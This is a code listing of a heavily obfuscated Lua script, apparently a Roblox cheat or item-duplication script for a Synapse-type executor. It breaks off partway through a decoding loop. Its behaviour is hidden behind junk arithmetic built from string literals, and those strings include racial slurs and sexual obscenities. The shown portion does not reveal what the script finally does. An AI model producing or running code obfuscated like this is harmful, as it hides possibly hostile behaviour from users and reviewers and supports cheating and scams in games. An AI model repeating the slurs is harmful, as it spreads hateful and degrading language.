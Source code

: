 ,nil,nil;(function() _msec=(function(e,l,n)local q=l[((810/0xf)+-#[[Fucking Retarted]])];local Y=n[e[(-#{",",",",",",{};'nil',53,'nil'}+679)]][e[(1521-0x31d)]];local m=(65-0x3d)/(-#'lego hax'+((0x26+((-50-0x1f)+-#[[cilerteddoesntlikeburgers]]))+0x4e))local i=(0x33-(-0x31+((21560/0xc4)+-#'cilertedcool')))-(-#{{},(function()return{','}end)(),{};100,(function()return{','}end)();{},18}+8)local E=n[e[(366-0xd5)]][e[(-#"nicowashere"+(706-0x194))]];local F=(0xc3/(((332343/0x1b)+-#[[big niggers sucking cock]])/0x3f))+(73+-0x47)local B=n[e[(54530/0x5f)]][e[((-#'Fucking Retarted'+(0x1b7c9/115))+-0x54)]]local d=(-#'lego hax'+(29+-0x13))-(((432-(27560/0x68))+-0x4d)-0x59)local _=(112-(24840/(296+((-0x54+33)+-#[[howtodumpscript]]))))local M=(-#{{};{},78}+7)local L=(0x7f-(-#'nicowashere'+(220+((-0x893+-41)/26))))local j=((0x9e-(((-#"holy shit"+((68208/0x2)/0x38))-0x167)+-0x63))+-#'cilertedcool')local R=((-#{59,1;'}';{}}+85)+-0x4d)local C=(-#[[Fucking Retarted]]+((158+-#{'}';(function()return#{('hoMKBO'):find("\77")}>0 and 1 or 0 end),'nil',1})-0x86))local f=(9+-#{192,1,{},(function()return#{('mFLHlK'):find("\76")}>0 and 1 or 0 end),'}';(function()return{','}end)()})local y=(-#"testpsx dupe no scam legit 2022 free no virus"+(((40427+-#{(function()return#{('LFFMbk'):find("\70")}>0 and 1 or 0 end);",";'nil'})/248)+-115))local g=(-37+(((-#'testpsx dupe no scam legit 2022 free no virus'+(-82+0x173))+-0x6e)-0x5e))local s=((-#"niggers"+(621-((-109+0x55)+350)))/0x60)local w=(0x16+(((-0xce8+(-#"never gonna give you up never gonna let you down"+(66+-0x6e)))+-#[[big niggers sucking cock]])/0xb4))local u=(-73+(83+-#{'}';'}';",";(function()return#{('PoFpHH'):find("\70")}>0 and 1 or 0 end),(function()return{','}end)(),1,{}}))local x=(-#"howtodumpscript"+((((0x4c+-127)+208)+-49)-0x5b))local b=(8+-#{'}',{};1;",",'nil';1})local c=(0x71-((-#{'nil','nil';33}+9771)/0x58))local h=(0x54-(207-(-121+(-#"testpsx dupe no scam legit 2022 free no virus"+(673-0x17e)))))local p=(5+-#{(function()return#{('FopFMK'):find("\112")}>0 and 1 or 0 end),'nil',91})local k=(7+-#{149,73,(function()return#{('MHPMBk'):find("\80")}>0 and 1 or 0 end),'nil','nil'})local G=e[(0xfe40/48)];local J=n[e[(-#"send nudes"+((-#{{};27;93}+372)-206))]][e[(0x23b3/19)]];local S=n[(function(e)return type(e):sub(1,1)..'\101\116'end)('     🤣 ')..'\109\101'..('\116\97'or'🤣   🤣 ')..e[(-#[[if syn then haxor alert end]]+((0xb319ba/155)/126))]];local v=n[e[(642+-0x44)]][e[(0x27132/165)]];local P=(-#{'}',56,(function()return#{('mPHLkM'):find("\72")}>0 and 1 or 0 end),{};1,56,'}'}+9)-(-#'cilerteddoesntlikeburgers'+(((((0x204a2f/153)+-#'testpsx dupe no scam legit 2022 free no virus')-0x1b1b)+-#'Fucking Retarted')/0xfd))local K=(103-(-#"holy shit"+(0x12e-(37632/0xc4))))-(-0x2f+49)local O=n[e[(0x114+-123)]][e[(0x5ef5/73)]];local o=function(e,n)return e..n end local V=(-#"holy shit"+(82-0x45))*((0x31c4/(((-0x2f+-42)+-#"arab porn")+0x157))+-#[[never gonna give you up never gonna let you down]])local Q=n[e[(-#{'}',",",{},'}';34,1,{}}+1199)]];local a=(204/0x66)*(16256/((-0x21+(-0x68+288))+-#'big niggers sucking cock'))local N=(39936/0x27)*((-#'holy shit'+((-#'cilertedcool'+(0x1c6-270))+-58))+-0x67)local X=(5980/(336-((0x238-((0x330-441)+-#"never gonna give you up never gonna let you down"))+-#'Cock and ball tortue')))local H=(((207-((421-0xf9)+-#'testpsx dupe no scam legit 2022 free no virus'))-0x33)+-#"if syn then haxor alert end")*(-#[[Cock and ball tortue]]+(0x60-74))local t=n[e[(-#{112;(function()return{','}end)(),1;{},(function()return{','}end)(),(function()return{','}end)(),1}+1077)]]or n[e[(1176-0x25a)]][e[(-#{112;(function()return{','}end)(),1;{},(function()return{','}end)(),(function()return{','}end)(),1}+1077)]];local r=((23772/(-0x7b+(-#'cilertedcool'+(474-0xff))))+-#[[if syn then haxor alert end]])local e=n[e[(-#[[cilertedcool]]+(0xa1e-1332))]];local B=(function(a)local r,l=4,0x10 local n={j={},v={}}local o=-d local e=l+i while true do n[a:sub(e,(function()e=r+e return e-i end)())]=(function()o=o+d return o end)()if o==(V-d)then o=""l=P break end end local o=#a while
e